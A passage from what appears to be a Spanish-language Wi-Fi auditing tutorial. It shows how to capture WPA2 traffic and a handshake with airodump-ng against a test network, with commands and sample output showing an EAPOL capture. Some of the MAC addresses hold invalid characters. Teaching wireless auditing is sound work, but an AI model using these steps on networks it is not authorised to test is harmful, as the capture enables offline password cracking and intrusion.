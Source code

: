 Esto mostrará una lista de redes, donde identificaremos el **BSSID** (MAC del punto de acceso) y el **canal (CH)** de la red objetivo. Supongamos que seleccionamos la red `MIWIFI_test`, con:

* **BSSID**: `01:9C:14:CO:29:R8`
* **Canal**: `10`

***

### 5. Captura de Tráfico y Handshake

#### Iniciar escucha de tráfico

Ejecutamos el siguiente comando para guardar todo el tráfico de la red seleccionada en un archivo `.cap`:

> EJEMPLO:

```shell
sudo airodump-ng -c <CH> --bssid <BSSID> -w <NAME_NEW_FILE> <INTERFACE_MONITOR>
```

Quedaria algo asi en mi caso:

```shell
sudo airodump-ng -c 10 --bssid 01:9C:14:CO:29:R8 -w auditoria wlan0
```

Info:

```
05:01:26  Created capture file "auditoria.cap".

 CH  6 ][ Elapsed: 3 mins ][ 2025-04-22 05:04                                                                             
 BSSID        PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID                                                                         
 01:9C:14:CO:29:R8  -54 100     1525      245    0   10  195   WPA2 CCMP   PSK  MIWIFI_test     
                                                              
 BSSID              STATION            PWR    Rate    Lost   Frames  Notes  Probes                                                                                    
```

Veremos que esta a la escucha de cualquier conexion al `Wifi` o cualquier trafico de red, por lo que si nos conectamos con un dispositivo al `Wifi` veremos lo siguiente:

```
05:01:26  Created capture file "auditoria.cap".

 CH  6 ][ Elapsed: 3 mins ][ 2025-04-22 05:04                                                                            
 BSSID        PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID                                                                         
 01:9C:14:CO:29:R8  -54 100     1525      245    0   10  195   WPA2 CCMP   PSK  MIWIFI_test     
                                                              
 BSSID              STATION            PWR    Rate    Lost   Frames  Notes  Probes                                                                           
 01:9C:14:CO:29:R8  C5:64:F4:1A:78:K5  -30    1e- 1    276      318  EAPOL 
```
